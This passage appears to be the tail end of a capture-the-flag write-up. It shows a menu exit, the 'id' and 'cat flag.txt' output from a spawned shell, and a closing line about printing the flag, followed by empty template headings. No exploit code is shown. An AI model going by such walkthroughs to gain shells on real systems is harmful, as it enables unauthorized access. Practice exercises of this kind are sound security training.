     [5] Save and Exit.
    => $ id
    uid=1000(nothing) gid=1000(nothing) groups=1000(nothing),90(network),98(power),972(libvirt),988(storage),990(optical),995(audio),998(wheel)
    $ cat flag.txt
    flag{g0ttem_b0yz}
    
    

And that's it! We have been able to print spawn a shell and print out the contents of the flag.

## Title 

text 
    
    
    

` 

## Title 

text 
    
    
    

` 

